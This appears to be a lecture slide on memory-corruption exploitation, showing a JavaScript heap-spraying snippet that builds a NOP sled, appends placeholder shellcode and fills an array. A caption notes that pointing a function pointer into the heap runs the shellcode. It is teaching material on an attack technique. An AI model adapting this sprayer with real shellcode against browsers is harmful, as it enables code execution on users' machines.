

# Javascript heap spraying
		var  nop = unescape(“%u9090%u9090”)
		while (nop.length < 0x100000)  nop += nop
		var shellcode = unescape("%u4343%u4343%...");
		var x = new Array ()
		for (i=0;  i<1000;  i++) {
			x[i] = nop + shellcode;
		}

Pointing  func-ptr  almost anywhere in heap will
cause shellcode to execute.